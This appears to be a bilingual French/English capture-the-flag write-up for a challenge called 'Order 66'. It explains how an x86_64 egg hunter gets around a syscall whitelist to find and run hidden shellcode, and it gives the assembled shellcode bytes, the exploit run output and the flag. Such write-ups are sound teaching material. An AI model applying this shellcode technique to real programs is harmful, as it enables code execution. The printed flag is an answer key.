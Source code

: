 # Order 66

## Write-up FR

En analysant le code, on constate que le programme attend une entrée utilisateur, qu’il exécute ensuite comme une instruction en assembleur.
Un mécanisme de traçage est en place pour restreindre certains appels système (syscalls). Dans notre cas, seuls les `syscalls` suivants sont autorisés : 
```bash
__NR_exit
__NR_open
__NR_close
__NR_read
__NR_write
__NR_access
__NR_sigaction
```
Cela signifie que nous ne pouvons pas exécuter une payload ouvrant un shell. 
Une autre approche pourrait consister à simplement ouvrir "flag.txt", le lire et l’afficher sur la sortie standard. Cependant, le traçage vérifie si le open effectué est autorisé, ce qui empêche cette méthode :
```bash
$ python sol.py 
[+] Opening connection to localhost on port 4444: Done
0x7a221a000000
[*] Switching to interactive mode
Follow the order, that's not the chosen one
[*] Got EOF while reading in interactive
```

Toutefois, on remarque qu’un payload cachée, `hidden_payload`, est présent dans la mémoire de l’exécutable. Ce payload est conçu pour ouvrir le fichier du flag et l’afficher. Juste avant ce payload, la chaîne `order66` apparaît deux fois dans la mémoire.
Notre objectif est donc d’implémenter un `Egg Hunter` en assembleur `x86_64` pour localiser et exécuter ce shellcode caché.

L'egg hunter doit parcourir la mémoire, tester si une adresse est accessible (sans provoquer de segmentation fault en lecture), puis rechercher la signature `order66`.

Heureusement, nous pouvons utiliser les syscalls `sigaction` et `access` pour tester l’accessibilité des pages mémoire.

De plus, le programme nous donne un indice sur l’emplacement du `hidden_shellcode` via cette ligne :
```c
printf("[Hint] %lx\n",hint & 0xFFFFFFF00000);
```
Cela signifie que nous devons tester `1 048 576` adresses.

```bash
$ nasm -f bin payload.s 
$ hexdump -v -e '"\\""x" 1/1 "%02x" ""' payload
\x48\x31\xf6\x48\x89\xf7\x48\xbf\x00\x00\x00\x00\x00\x70\x00\x00\x66\x81\xcf\xff\x0f\x48\xff\xc7\x6a\x15\x58\x0f\x05\x3c\xf2\x74\xef\xb8\x6f\x72\x64\x65\xaf\x75\xef\xb8\x72\x36\x36\x00\xaf\x75\xe7\xff\xd7
```
On écrit un programme Python qui récupère l’indice, modifie notre shellcode en conséquence et l’envoie au programme cible :
```bash
$ python sol.py 
[+] Opening connection to localhost on port 4444: Done
0x78d897b00000
[*] Switching to interactive mode
Congrate, you find the order 66:
polycyber{0rd3r_66_n0_m0r3_j3d1}[*] Got EOF while reading in interactive
```

## Write-up EN

By analyzing the code, we observe that the program waits for user input and then executes it as an assembly instruction.

A tracing mechanism is in place to restrict certain system calls (syscalls). In our case, only the following syscalls are allowed:
```bash
__NR_exit
__NR_open
__NR_close
__NR_read
__NR_write
__NR_access
__NR_sigaction
```
This means we cannot execute a payload that spawns a shell.

Another approach would be to simply open "flag.txt", read it, and print its contents to standard output. However, the tracer checks whether the open syscall being executed is authorized, preventing this method :
```bash
$ python sol.py 
[+] Opening connection to localhost on port 4444: Done
0x7a221a000000
[*] Switching to interactive mode
Follow the order, that's not the chosen one
[*] Got EOF while reading in interactive
```
However, we notice that a hidden payload, `hidden_payload`, is present in the executable’s memory. This payload is designed to open the flag file and display its contents. Just before this payload, the string `order66` appears twice in memory.
Our objective is to implement an `Egg Hunter` in `x86_64` assembly to locate and execute this hidden shellcode.
The egg hunter must scan memory, check whether an address is accessible (without causing a segmentation fault when reading), and search for the `order66` signature.

Fortunately, we can use the `sigaction` and `access` syscalls to check whether a memory page is accessible.
Additionally, the program provides a hint about the location of the `hidden_shellcode` with the following line:
```c
printf("[Hint] %lx\n", hint & 0xFFFFFFF00000);
```
This means we need to scan `1,048,576` addresses.

```bash
$ nasm -f bin payload.s 
$ hexdump -v -e '"\\""x" 1/1 "%02x" ""' payload
\x48\x31\xf6\x48\x89\xf7\x48\xbf\x00\x00\x00\x00\x00\x70\x00\x00\x66\x81\xcf\xff\x0f\x48\xff\xc7\x6a\x15\x58\x0f\x05\x3c\xf2\x74\xef\xb8\x6f\x72\x64\x65\xaf\x75\xef\xb8\x72\x36\x36\x00\xaf\x75\xe7\xff\xd7
```
We write a Python script that retrieves the hint, modifies our shellcode accordingly, and sends it to the target program:
```bash
$ python sol.py 
[+] Opening connection to localhost on port 4444: Done
0x78d897b00000
[*] Switching to interactive mode
Congrats, you found Order 66:
polycyber{0rd3r_66_n0_m0r3_j3d1}[*] Got EOF while reading in interactive
```

## Flag

`polycyber{0rd3r_66_n0_m0r3_j3d1}`